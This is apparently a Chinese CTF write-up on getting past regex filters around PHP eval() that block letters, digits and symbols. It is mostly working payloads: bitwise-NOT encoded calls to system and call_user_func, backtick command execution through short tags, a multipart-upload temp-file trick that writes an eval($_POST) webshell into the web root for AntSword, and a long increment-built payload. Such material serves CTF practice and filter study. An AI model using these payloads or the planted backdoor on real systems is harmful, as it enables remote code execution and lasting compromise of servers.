

## 过滤`_`

### 题目
---

```php
<?php
highlight_file(__FILE__);
error_reporting(0);

if (!preg_match('/[a-z0-9_]/is', $_GET['cmd'])){
	eval($_GET['cmd']);
}
```

### 前置知识
---

短标签

标签内部只能写一条表达式

`<?= 表达式 ?>`等价于`<?php echo 表达式; ?>`

`<?=phpinfo()?>`  => `<?php phpinfo();?>`

### 最佳payload
---
#### get型

``` ?cmd=?><?=`${~"%a0%b8%ba%ab"}[%a0]`?>&%a0=ls ```


#### post型

payload
```text
?cmd=?><?=`${~"%a0%af%b0%ac%ab"}[-]`?>

`-=ls`

```


## 过滤`_&`

### 题目
---

```php
<?php
highlight_file(__FILE__);
error_reporting(0);

if (!preg_match('/[a-z0-9_$]/is', $_GET['cmd'])){
	eval($_GET['cmd']);
}
```


### 情形一：php5
---

#### 前置知识

PHP上传文件的临时文件的固定格式是`/tmp/phpXXXXXX`（最后一位是大写字母）

通过`/???/????????[@-[]`去匹配multipart上传的文件

`[@-[]`表示ASCII码在`@`到`[`之间的字符，即大写字母


#### 大致流程



#### payload
```http

通过bp劫取到一个随便的请求报文
进行如下修改

POST /class11/3.php?cmd=?><?=`/???/????????[@-[]`;?> HTTP/1.1
Content-Type: multipart/form-data;boundary=--------123
Content-Length: xxx  

--------123
Content-Disposition: form-data;name="file";filename="1.txt"

echo "<?php eval(\$_POST['shell']);" > /www/admin/localhost_80/wwwroot_class11/success.php
--------123--

`Content-Length`是从`boundary`开始到`boundary--`的总字节数
可以手算，也可以借助bp右键的`Change body encoding`自动计算

随后通过蚁剑去连接这个后门
```

#### 拓

`inotifywait -m /tmp/`

监控`/tmp/`文件夹的文件变化


### 情形二：php7
---

以执行`system('whoami','');`为例：

- 原生可变函数
	`(函数名)(命令，多余空参数)`
	
	`?cmd=(~%8c%86%8c%8b%9a%92)(~%88%97%90%9e%92%96,'');`
- 通用回调函数
	`(call_user_func)(函数名, 命令, 多余空参数);`
	
	`?cmd=(~%9c%9e%93%93%a0%8a%8c%9a%8d%a0%99%8a%91%9c)(~%8c%86%8c%8b%9a%92,~%88%97%90%9e%92%96,'');`


## 过滤```;~^`&|```

### 题目
---

```php
<?php
highlight_file(__FILE__);
error_reporting(0);

if (!preg_match('/[a-z0-9;~^`&|]/is', $_GET['cmd'])){
	eval($_GET['cmd']);
}
```


payload:
```text
?cmd=<?=$_=[].''?><?=$___=$_[$_]?><?=$__=$___?><?=$_=$__?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=$__.=$_?><?=$__.=$_?><?=$_=$___?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=$__.=$_?><?=$_=$___?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=$__.=$_?><?=$_=$___?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=$__.=$_?><?=$_=$___?><?=$____=''?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=$____.=$_?><?=$_=$___?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=$____.=$_?><?=$_=$___?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=$____.=$_?><?=$_=$___?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=$____.=$_?><?=$_=$___?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=++$_?><?=$____.=$_?><?=$__($$____[_])?>
```